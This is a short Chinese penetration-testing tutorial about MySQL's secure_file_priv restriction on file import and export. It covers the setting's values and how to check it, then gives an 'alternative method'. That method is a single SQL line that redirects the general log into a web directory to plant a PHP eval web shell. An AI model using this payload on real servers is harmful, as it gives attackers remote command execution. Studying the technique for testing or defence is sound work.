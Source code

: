 ```yaml
---
title: MYSQL新特性限制文件写入及替代方法
date: 2018-08-17 10:00:04
tags:
	- Mysql
	- 渗透测试
categories: 渗透测试
keywords:
description:
---
```

高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限<!-- more -->

## secure_file_priv选项

```
secure_file_priv 

　　1、限制mysqld 不允许导入 | 导出
　   　   --secure_file_prive=null

　　2、限制mysqld 的导入 | 导出 只能发生在/tmp/目录下
　　　   --secure_file_priv=/tmp/

　　3、不对mysqld 的导入 | 导出做限制
              --secure_file_priv= 

linux
cat /etc/my.cnf
　　　　[mysqld]
　　　　secure_file_priv= 

win
    my.ini
       [mysqld]
 　　　　secure_file_priv=
```
## 查看secure_file_priv

```
show global variables like '%secure%';
```

## 高权限注入遇到secure_file_priv
在mysql高版本的配置文件中默认没有secure_file_priv这个选项，但是你用SQL语句来查看secure_file_priv发现，没配置这个选项就是NULL，也就是说无法导出文件。

![](http://image.ixysec.com/image/sql/sql034.png)

替代方法：

```
set global general_log=on;set global general_log_file='D://www//zzb.php';select '<?php eval($_POST[zzb]) ?>';
```
